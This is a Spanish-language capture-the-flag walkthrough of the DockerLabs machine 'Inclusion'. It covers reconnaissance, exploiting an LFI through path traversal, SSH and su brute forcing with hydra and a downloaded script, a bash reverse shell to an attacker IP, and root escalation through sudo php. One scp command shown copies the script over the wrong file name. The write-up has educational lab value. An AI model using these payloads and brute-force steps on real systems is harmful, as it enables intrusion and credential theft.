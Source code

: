 # Máquina Inclusion

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03cf7254de54aecd2a16586b8af552dc (ECDSA)
|_  256 13bbc212f59730a149c7f9d0bad05ef7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos algo más de info sobre el puerto 80 y 22. Vamos a echarle un vistazo a la web que corre por el puerto 80.

![Pasted image 20240414234421](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ee73b905-00c4-41ff-ba59-5f00da5969b2)

Es la web por defecto de apache, así que aplicamos **Fuzzing** con **gobuster**.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
-------------------------------------------------------------------------
/icons/               (Status: 403) [Size: 275]
/shop/                (Status: 200) [Size: 1112]
/server-status/       (Status: 403) [Size: 275] 
```

Encontramos un directorio **/shop**, accedemos, y nos encontramos con una pista.

![Pasted image 20240415001358](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/24b5bc57-55da-4e87-a4cd-21e6cc1859ba)

_**"Error de Sistema: ($_GET['archivo']");**_

Esto nos dice que se está usando un parámetro llamado **archivo** en la url para pasarle un valor e incluir un archivo en la web. Esto puede ser vulnerable ante un **LFI** (Local File Inclusion)

-----------------------
## Explotación

Tras varias pruebas, conseguimos leer archivos de la máquina mediante un **Path traversal**

```
http://172.17.0.2/shop/?archivo=../../../../../../etc/passwd
```

![Pasted image 20240415001300](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a7d86c4b-6b6b-4ebc-902b-4650a6d9a1ad)

Teniendo un **LFI** podemos tratar de derivarlo a un **RCE** (Remote Code Execution) mediante un **Log Poisoning** o envenenamiento de los logs del sistema. Consistirá en inyectar código malicioso mediante peticiones al sistema, que posteriormente llegue a ser interpretado por medio del **LFI**.

![Pasted image 20240415002355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/5a7ccb2b-005d-4361-a578-9e693ce78de5)

Tenemos dos usuarios, **manchi** y **seller**. En este punto he intentado listar logs de apache, de ssh, claves privadas de estos dos usuarios para ssh, pero nada ha dado resultado. Por lo tanto, he hecho fuerza bruta al protocolo **ssh** con **hydra** para los dos usuarios. Y el usuario **manchi**, tenía una contraseña fácil, por lo tanto hemos conseguido adivinarla con **hydra**.

```shell
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
----------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

Credenciales -> **manchi:lovely**
Accedemos por **ssh**.

```
ssh manchi@172.17.0.2
```

---------------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.39/443 0>&1" 
```

(Siendo la 192.168.1.39 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Revisamos directorio home de manchi, capabilities, archivos SUID, etc. Y no hemos encontrado nada, por lo que vamos a transferirnos un script para hacer fuerza bruta hacia el usuario **seller** desde la propia máquina. Nos transferiremos también el diccionario **rockyou**.

Nos descargamos el script.sh del siguiente repositorio en la **máquina atacante**-> [Script de fuerza bruta](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

```shell
wget https://raw.githubusercontent.com/Maalfer/Sudo_BruteForce/main/Linux-Su-Force.sh
```

Probamos a transferirlo con **wget** o **curl** pero no es posible porque no están instalados.
Los transferiremos utilizando **SCP** (Secure Copy) a la máquina con la dirección IP 172.17.0.2 a través de SSH.

Desde la máquina atacante indicamos la ruta del archivo a tranferir y la ruta de la máquina víctima donde se alojará:

```shell
scp rockyou.txt manchi@172.17.0.2:/home/manchi/rockyou.txt
scp Linux-Su-Force.sh manchi@172.17.0.2:/home/manchi/rockyou.txt
```

Le daremos permisos de ejecución y lo ejecutaremos hacia el usuario **seller*:

```shell
./Linux-Su-Force.sh seller rockyou.txt 
-----------------------------------------
Contraseña encontrada para el usuario seller: qwerty
```

Hemos encontrado la contraseña! -> **qwerty**
Migramos al usuario **seller**:

```shell
su seller
```

Usaremos "**sudo -l**" para ver si el usuario **seller** puede ejecutar algún binario con permisos privilegiados.

```shell
sudo -l
--------------------------------------
 (ALL) NOPASSWD: /usr/bin/php
```

Puede ejecutar **php**.
Podemos abusar de este con los siguiente comandos:

```shell
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

Si no sabemos como abusar de algún binario o lo desconocemos, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
whoami
-----------------
root
```

Hemos conseguido el nivel de privilegios máximo!
